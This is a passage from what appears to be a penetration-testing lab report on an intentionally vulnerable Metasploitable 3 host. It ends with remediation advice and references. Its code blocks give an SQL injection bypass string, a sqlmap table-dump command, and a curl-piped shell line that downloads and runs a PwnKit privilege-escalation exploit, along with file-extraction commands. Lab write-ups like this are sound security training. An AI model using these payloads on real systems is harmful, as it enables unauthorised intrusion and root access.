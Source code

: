 
### SQL injection (demo)
bash
# Manual test
# Username: ' OR 1=1#
# Automated dump
sqlmap -u "http://10.0.2.15/payroll/index.php?user=1" --dump -T users


### Privilege escalation (example technique)
bash
# Find setuid binaries and attempt PwnKit
find / -perm -u=s -type f 2>/dev/null
# Example PwnKit script (lab only)
sh -c "$(curl -fsSL https://raw.githubusercontent.com/ly4k/PwnKit/main/PwnKit.sh)"


### File extraction examples
bash
# Extract Base64 from JS and decode
cat chat_client.js | grep 'IVB0RW0K' | awk -F ' ' '{print $2}' | base64 -d > ace.png

# Extract metadata-based Base64 from image
exiftool 5_of_hearts.png | grep '...' | awk '{print $6}' | base64 -d > five_of_hearts.png

# Extract hidden zlib payload from WAV
binwalk -e 10_of_clubs.wav
dd if=10_of_clubs.wav bs=1 skip=58 of=hidden.zlib
zlib-flate -uncompress < hidden.zlib > 10_of_clubs.png


---

## Conclusion
The Metasploitable 3 host is intentionally vulnerable; the exercise confirmed it can be fully compromised via multiple low- to high-effort vectors. Immediate remediation is required for any similar production systems exhibiting these vulnerabilities.

---

## Bibliography / References
- OWASP Testing Guide (STG)
- PTES (Penetration Testing Execution Standard)
- Metasploit & Rapid7 documentation
- Nmap, SQLMap, Binwalk, ExifTool tooling docs
- Public CVE references for mentioned components (UnrealIRCd, pkexec/PwnKit, ProFTPD)
